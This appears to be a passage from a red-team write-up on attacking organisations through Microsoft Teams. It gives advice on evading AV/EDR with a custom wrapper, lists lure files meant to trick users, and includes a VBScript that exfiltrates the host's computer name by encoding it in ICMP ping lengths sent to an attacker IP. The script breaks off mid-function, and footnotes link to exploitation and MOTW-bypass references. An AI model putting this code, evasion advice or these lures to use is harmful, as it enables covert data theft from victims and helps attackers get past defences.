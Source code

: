 ```
Do not try to convert directly the vbs script to exe as AV/EDR will detect it very easily the only way is to create a custom wrapper that allows the execution of the code.

Possible file ideas to trick the user:
- meeting launcher
- sensitive information inside a zip protected with password
- receipts or financial data disguised as PDFs

##### [Data Exfiltration](#data-exfiltration)

The data exfiltration technique used was ICMP Tunneling and the whole idea of the ping length was taken from Rocco Sicilia[^12] work.
This kind of script was done because on windows we can't insert messages directly into the ping command as it is on Linux.

```
Dim ip
ip = ""

  
Dim MY_DATA
MY_DATA = CreateObject("WScript.Shell").ExpandEnvironmentStrings("%COMPUTERNAME%")

  
Dim bytes
bytes = StrToByteArray(MY_DATA)

  
Dim base64string
base64string = CustomBase64Encode(bytes)

'WScript.Echo base64string

Dim shell, pingCmd, i
Set shell = CreateObject("WScript.Shell")


pingCmd = "ping -n 1 -l 1 " & ip

shell.Run pingCmd, 0, True

  
For i = 1 To Len(base64string)
    Dim x
    x = AscW(Mid(base64string, i, 1))
    Dim dataBuffer
    ReDim dataBuffer(x - 1)
    pingCmd = "ping -n 1 -l " & x & " " & ip
    shell.Run pingCmd, 0, True
    WScript.Sleep 100

Next


Function CustomBase64Encode(bytes)
    Dim base64Chars, padding
    base64Chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
    padding = "="


[^1]: [Teams Official disclose Research](https://labs.jumpsec.com/advisory-idor-in-microsoft-teams-allows-for-external-tenants-to-introduce-malware/)
[^2]: [Manual bugs/exploitations](https://posts.inthecyber.com/leveraging-microsoft-teams-for-initial-access-42beb07f12c4)
[^3]: [Basic tool](https://github.com/sse-secure-systems/TeamsEnum)
[^4]: [audit logs in microsoft teams](https://learn.microsoft.com/en-us/microsoft-365/compliance/audit-teams-audit-log-events?view=o365-worldwide)
[^5]: [Guide3](https://badoption.eu/blog/2023/06/30/teams3.html)
[^6]: [Guide2](https://badoption.eu/blog/2023/06/22/teams2.html)
[^7]: [queries article](https://www.linkedin.com/pulse/defending-against-teamsphisher-attack-microsoft-365-defender-lim?utm_source=share&utm_medium=member_ios&utm_campaign=share_via)
[^8]: [lolbas](https://lolbas-project.github.io/lolbas/Binaries/Syncappvpublishingserver/)
[^9]: [MOTW bypass](https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/)
[^10]: [MOTW bypass on zip](https://breakdev.org/zip-motw-bug-analysis/)
[^11]: [abusing lnk](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence)
[^12]: [Useful Red Team Info ITA](https://roccosicilia.com/)